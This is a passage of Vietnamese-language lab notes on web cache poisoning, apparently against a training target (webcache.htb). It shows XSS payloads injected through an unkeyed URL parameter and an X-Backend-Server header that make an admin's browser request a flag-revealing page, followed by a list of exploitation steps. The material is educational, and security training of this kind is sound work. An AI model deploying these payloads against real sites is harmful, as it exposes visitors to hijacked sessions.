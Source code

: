 2. **Kịch bản tấn công:**  
   - Poison cache với payload:  
     ```html
     <script>
       var xhr = new XMLHttpRequest();
       xhr.open('GET', '/admin.php?reveal_flag=1', true);
       xhr.withCredentials = true;
       xhr.send();
     </script>
     ```
   - URL để poison cache:  
     ```plaintext
     GET /index.php?language=de&ref=%22%3E%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();xhr.open(%27GET%27,%20%27/admin.php?reveal_flag=1%27,%20true);xhr.withCredentials%20=%20true;xhr.send();%3C/script%3E
     ```

3. **Kết quả:**  
   - Khi admin truy cập trang `/index.php?language=de`, payload được kích hoạt, và phản hồi `/admin.php?reveal_flag=1` được gửi đến kẻ tấn công.

---

### **Phân Tích Headers Không Được Đưa Vào Cache Key**

Tương tự với tham số GET, một số HTTP headers cũng có thể là **unkeyed**:  
- **Ví dụ:** Header `X-Backend-Server` (unkeyed).  
  - Header này ảnh hưởng đến vị trí tải script debug.  

**Payload qua header:**
```plaintext
GET /index.php?language=de HTTP/1.1
Host: webcache.htb
X-Backend-Server: testserver.htb"></script><script>var xhr=new XMLHttpRequest();xhr.open('GET','/admin.php?reveal_flag=1',true);xhr.withCredentials=true;xhr.send();</script>
```

---
# 5. Tấn Công Web Cache Poisoning

Tấn công **web cache poisoning** chủ yếu nhằm khai thác lỗ hổng tiềm ẩn trong ứng dụng web để phân phối rộng rãi đến nhiều người dùng. Dưới đây là tổng quan về khai thác, tác động và các kỹ thuật thực hiện.

---

### **Cách Khai Thác Web Cache Poisoning**

#### 1. **Xác định tham số hoặc tiêu đề không được đưa vào cache key (unkeyed):**
   - Phát hiện các tham số GET, cookies hoặc HTTP headers không được đưa vào cache key.
   - Gửi yêu cầu thử nghiệm để xem xét các thay đổi trong phản hồi.
